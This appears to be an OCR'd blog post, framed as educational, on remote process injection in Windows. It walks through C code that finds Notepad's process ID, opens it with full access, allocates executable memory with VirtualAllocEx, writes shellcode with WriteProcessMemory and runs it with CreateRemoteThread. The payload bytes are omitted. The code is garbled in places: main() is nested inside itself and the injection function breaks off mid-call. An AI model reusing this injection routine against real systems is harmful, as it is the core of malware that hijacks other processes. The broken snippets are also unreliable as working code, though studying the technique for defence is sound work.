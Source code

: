 ```yaml
---
layout: post
title:  "Process Injection - 01"
---
```


## Injecting shellcode into a remote process.

### Introduction

Process injection, a technique utilized in both legitimate applications and malicious software, involves manipulating the memory space of a running process. This blog delves into the intricacies of remote process injection, utilizing a simple C program for educational purposes. It's important to note that the provided code lacks evasion techniques and is intended solely for educational exploration.

### Overview of Process Injection

Process injection serves as a potent method for executing code in the address space of another process. This allows for various functionalities, including code injection, DLL injection, and reflective DLL injection. In our exploration, we'll focus on remote process injection, where the injection process is initiated from an external program. In our example, the program does not incorporate evasion techniques and maintains a straightforward structure. This approach allows for a clearer understanding of the core concepts without introducing complexities related to evasion.

### Utilized functions from the Windows APIs

The success of remote process injection hinges on leveraging specific Win32API functions. These functions play pivotal roles in tasks such as process identification, memory allocation in the remote process, and thread creation. Here are key Win32API functions employed in the provided C code:

- `CreateToolhelp32Snapshot`: Captures a snapshot of all processes currently running in the system.
- `Process32First` and `Process32Next`: Retrieve information about the first and subsequent processes in the snapshot.
- `OpenProcess`: Opens an existing process, providing various access rights.
- `VirtualAllocEx`: Allocates memory in the address space of the specified process.
- `WriteProcessMemory`: Writes data to the memory of the specified process.
- `CreateRemoteThread`: Creates a thread running in the address space of the specified process.

### Flow of the Program (key steps)

1. **Process Identification:** Identify the process ID of "Notepad.exe" or any process ID of your choice using `FindProcessId`.
2. **Open the Process:** If the process ID is obtained, open the process with full access rights using `OpenProcess`.
3. **Payload Injection:** If the process is successfully opened, inject the payload into the target process via the `injectPayload` function.
4. **Execution:** The injected payload, represented by the shellcode, is executed within the context of the target process.

### Understanding the code

1. **Payload definition:** The `payload` variable encapsulates a block of machine code, acting as the payload intended for injection. This payload, in our example, is designed to open a calculator.

    ```c
    unsigned char payload[] = {
      // ... (payload content)
    };
    unsigned int payload_len = sizeof(payload);
    ```

2. **Process Identification:** (Identify the Process ID of "Notepad.exe" using `FindProcessId`)

    In this step, the program uses the `FindProcessId` function to determine the Process ID (PID) of the target process, which, in this example, is "Notepad.exe." The `FindProcessId` function takes the name of the target process as a parameter and iterates through the list of running processes to find a match. Here, the function uses the Windows API functions `CreateToolhelp32Snapshot` and `Process32First/Process32Next` to iterate through the list of processes, comparing each process name with the provided target name ("Notepad.exe"). When a match is found, the corresponding Process ID is returned.

    ```c
    int FindProcessId(const char *FprocessName) {
      HANDLE hProcessSnapshot;
      PROCESSENTRY32 pe32;
      DWORD pid = 0;

      hProcessSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

      if (hProcessSnapshot == INVALID_HANDLE_VALUE) {
        // Error handling
        return 0;
      }

      pe32.dwSize = sizeof(PROCESSENTRY32);
      if (!Process32First(hProcessSnapshot, &pe32)) {
        // Error handling
        CloseHandle(hProcessSnapshot);
        return 0;
      }

      while (Process32Next(hProcessSnapshot, &pe32)) {
        if (_stricmp(FprocessName, pe32.szExeFile) == 0) {
          pid = pe32.th32ProcessID;
          break;
        }
      }

      CloseHandle(hProcessSnapshot);
      return pid;
    }
    ```

3. **Open the Process:** (If the Process ID is obtained, open the process with full access rights using `OpenProcess`)

    Once the Process ID is identified, the program uses the `OpenProcess` function to open the target process. This function returns a handle to the specified process, allowing subsequent operations on that process. In this snippet, the `OpenProcess` function is called with the identified Process ID and the desired access rights (`PROCESS_ALL_ACCESS`). If the function succeeds, it returns a handle (`hProcess`) to the opened process, signifying that subsequent operations can be performed on this process.

    ```c
    int main(void) {
      // ... (main function initialization)
      int main(void) {
        int process_Id = 0;
        HANDLE hProcess = NULL;

        process_Id = FindProcessId("Notepad.exe");

        if (process_Id) {
            printf("Notepad process id is: %d", process_Id);

            hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, process_Id);
            if (hProcess != NULL) {
                // Code to inject payload
            }
        }

        return 0;
    }
    ```

4. **Remote Process Injection:** If the process is successfully opened, inject the payload into the target process via the `injectPayload` function. Following the successful opening of the target process, the program proceeds to inject the payload. This involves allocating memory within the address space of the target process using `VirtualAllocEx` and writing the payload into that allocated memory with `WriteProcessMemory`. Here, the `injectPayload` function is called with the opened process handle (`hProcess`) and the payload information. The `injectPayload` function, which was defined earlier, handles the memory allocation and payload injection.

    <pre>
    // Function to inject payload into the target process
    int injectPayload(HANDLE ihProcess, unsigned char *iPayload, int iPayload_len) {
        // Allocate memory in the remote process
        LPVOID rmem = VirtualAllocEx(ihProcess, NULL, iPayload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

        if (rmem == NULL) {
            // Error handling
            return -1;
        }

        // Write the payload into the allocated memory
        if (!WriteProcessMemory(ihProcess, rmem, (PVOID)iPayload, iPayload_len, NULL)) {
            // Error handling
            VirtualFreeEx(ihProcess, rmem, 0, MEM_RELEASE);
            return -1;
        }

        // Create a remote thread to execute the injected payload
        HANDLE cremoteThread = CreateRemoteThread(ihProcess, NULL, 0, (LPTHREAD_START_ROUTINE)rmem, NULL, 0, NULL);

        if (cremoteThread == NULL) {
            // Error handling
            VirtualFreeEx(ihProcess, rmem
            </pre>


        ```c
